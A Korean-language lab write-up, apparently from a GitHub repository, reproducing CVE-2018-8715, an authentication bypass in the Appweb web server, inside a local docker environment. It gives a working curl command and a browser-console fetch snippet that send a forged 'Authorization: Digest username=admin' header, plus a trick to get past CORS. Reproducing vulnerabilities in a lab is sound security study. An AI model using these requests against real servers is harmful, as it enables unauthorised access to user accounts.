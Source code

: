 # CVE-2018-8715

**Contributors**
-   [정준우(@JungJoonWoo)](https://github.com/JungJoonWoo)
<br/>

### 참고문헌
- https://vulners.com/seebug/SSV:97181
- https://github.com/cyberharsh/appweb/blob/master/README.md

### 요약
- 인증 절차의 논리적 결함으로 인해 기존 사용자의 이름을 알면 위조된 HTTP POST Request를 통해 모든 form인증과 digest 타입의 인증을 완전히 우회할 수 있음
- 비밀번호 포인터가 null이라면(즉, 비밀번호 매개변수가 전달되지 않는 다면)로직 오류로 인해 appweb이 인증이 성공했다고 반환함
<br/>

### 환경 구성 및 실행
- 모든 실습은 VMware의 Ubuntu 리눅스 환경에서 진행함
- `docker-compose up -d`를 실행하여 테스트 환경을 실행함
- `http://localhost:8080/` 에 접속하여 appweb 로그인 페이지를 확인함
  ### 실행1
  - `sudo apt install curl`을 통해 curl을 설치해 줌
  - `curl -H "Authorization: Digest username=admin" http://127.0.0.1:8080`를 통해 HTTP 헤더에 'Authorization: Digest username=admin' 패킷을 끼워 보내면 인증을 우회할 수 있다는 것을 확인
  ![](1.png)
  - `curl -H "Authorization: Digest username=admin" http://127.0.0.1:8080 -o output.html`명령어로 우회를 통해 알아낸 html파일을 로컬 파일로 추출한 뒤 로컬 환경에서 추출된 html 파일을 실행하면 정상적으로 실행됨

  ### 실행2
  - `F12`를 누른 뒤 콘솔에서 
  ```
  fetch('http://localhost:8080', {
    method: 'GET',
    headers: {
    'Authorization': 'Digest username=admin'
    }
    })
    .then(response => response.text())
    .then(data => console.log(data))
    .catch(error => console.error('Error:', error));
  ```
  코드를 입력해 헤더에 `'Authorization': 'Digest username=admin'`을 추가함
  - 하지만 CORS에 의해 에러가 발생함
  ![](3.png)
  - 이를 우회하기 위해 오류가 뜬 상태에서 아이디와 비밀번호를 아무값이나 입력하면 다음과 같이 상태는 200으로 패킷이 잘 전달 되었지만 인증은 되지 않았다는 창이 뜸
  ![](4.png)
  ![](5.png)
  - 이 상태에서 콘솔에 위 fetch코드를 다시 입력하면 local값이 잘 설정되어 있기 때문에 CORS에러가 발생하지 않음
  - 이후 개발자 도구를 끄고 `F5`를 눌러 새로고침하면 우회된 것을 확인할 수 있음
<br/>

### 결과1
![](2.png)
### 결과2
![](6.png)
<br/>

### 정리
- 7.0.3버전부터 취약점이 패치됨
- id를 무작위로 대입할 시 수많은 계정이 유출될 가능성이 있기 때문에 매우 위험한 취약점임